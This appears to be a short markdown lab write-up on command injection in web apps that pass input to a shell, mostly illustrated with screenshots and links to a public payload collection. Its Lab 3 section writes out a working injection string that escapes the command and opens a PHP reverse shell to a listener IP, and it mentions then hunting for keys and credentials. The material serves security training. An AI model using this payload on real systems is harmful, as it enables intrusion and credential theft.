Resorce: [Click Me](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

When any input passed is executed as command in shell, it can be used to perform injection attack by payloading the input to some malicious command.
Example:

Above takes url input and displays result of HTTP request.

***Now, we can tweak this functionality for command injection***

This results in output of 'whoami' in last

Terminating curl command so that it can be visible directly.


***It can be used to chain other commands like gaining reverse shell, etc.***

PHP Reverse Shell:  [Link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Injecting php reverse shell cmd with input:


Got reverse shell

Now, it can be used to look for config files for keys, credentials, privilege excalation, etc


### Lab2:



### Lab 3:
Normal functionality:


**CMD Injection:**
In X Field: `30))}';php -r '$sock=fsockopen("10.0.2.15",4244);exec("/bin/sh -i <&3 >&3 2>&3");';#`

